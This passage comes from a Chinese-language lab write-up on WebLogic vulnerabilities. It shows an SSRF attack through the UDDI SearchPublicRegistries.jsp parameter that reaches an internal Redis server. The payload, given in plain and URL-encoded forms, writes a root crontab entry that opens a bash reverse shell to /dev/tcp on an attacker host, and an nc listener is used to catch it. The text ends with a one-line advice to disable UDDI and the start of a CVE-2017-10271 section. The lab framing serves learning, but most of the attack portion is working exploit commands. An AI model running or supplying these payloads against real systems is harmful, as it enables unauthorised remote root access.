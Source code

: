 扫描结果

```
[*] http://172.23.0.1:80
[*] http://172.23.0.1:7001
[*] http://172.23.0.2:6379
[*] http://172.23.0.3:7001
```

172.23.0.1是我本地虚拟机，就可以忽略，6379就是很熟悉的redis了

写如定时命令，详细攻击redis可以参考下 https://www.kingkk.com/2018/08/redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E4%B8%8Essrf%E5%88%A9%E7%94%A8/

```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.23.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

转换成url格式，然后传输

```
http://192.168.85.133:7001//uddiexplorer/SearchPublicRegistries.jsp?operator=http://172.23.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20>%26%20%2Fdev%2Ftcp%2F172.23.0.1%2F1234%200>%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```

在虚拟机中用nc监听端口

```
nc -l -p 1234
```

过一会就能看到反弹回来的shell

![](weblogic漏洞练习\10.png)

业务无需UUDI功能时建议将其关闭

# 反序列化 CVE-2017-10271

> Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
